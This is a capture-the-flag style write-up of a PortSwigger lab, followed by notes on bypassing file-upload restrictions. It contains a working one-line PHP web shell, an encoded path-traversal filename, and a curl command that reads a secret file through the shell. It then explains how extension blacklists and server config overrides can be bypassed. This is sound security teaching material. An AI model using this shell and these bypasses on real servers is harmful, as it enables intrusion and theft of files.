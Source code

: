 +++
title = '1f3 - Web shell upload via Path Traversal \[PortSwigger Lab]'
date = 2024-07-9
draft = false
+++

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So, User's page includes avatar upload function. just to upload `mal.php` with contents `<?php echo system($_GET['command']); ?>` will just return plaintext version of this script.

{{< figure src="/.gitbook/assets/Pasted image 20240720173537.png" alt="" >}}

it also seems that uploading `mal.php` with path traversal `../mal.php` still uploads it to `files/avatars/mal.php`, which means that it's cutting traversals in path.

{{< figure src="/.gitbook/assets/Pasted image 20240720173821.png" alt="" >}}

So all I had to do was obfuscating the path traversal to `..%2Fmal.php` which is same as `../mal.php`.

after changing a filename to this parameter and uploading it we get the following response

{{< figure src="/.gitbook/assets/uploaded.png" alt="" >}}

so the file is uploaded to `files/mal.php`

now we can just call this script using \[\[1a1b - cURL|cURL]] to get the response

```
curl -X GET "https://0a3c00e4049c901c802ee994009d003a.web-security-academy.net/files/mal.php?command=cat%20/home/carlos/secret"


jziR****************************jziR****************************
```

The secret: jziR\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

***

Another obvious way to prevent users from uploading certain files is to blacklist these file extensions like `php`. This practice is still flawed since its difficult to explicitly blacklist every file that can be executed. such blacklists can be sometimes bypassed using lesser known, alternative file extensions like `.php5` or `.shtml` and so on.

As previously mentioned, some servers won't let certain files to execute unless they are explicitly configured to do that.

As an example, before Apache server lets PHP files to execute, a developer might put something like the following in their `/etc/apache2/apache2.conf` file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php
```

Many servers also allow developers to create special config-files within individual directories to override global configuration parameters. Apache-specific servers for example will load directory-specific configuration from a file called `.htaccess`.

Similarly, directory-specific configuration can be made on IIS server using `web.config` file. This might include directives such as the following, where server only allows JSON files to be served to users:

```
<staticContent> 
	<mimeMap fileExtension=".json" mimeType="application/json" /> 
	</staticContent>
```

Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests.

However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable type.
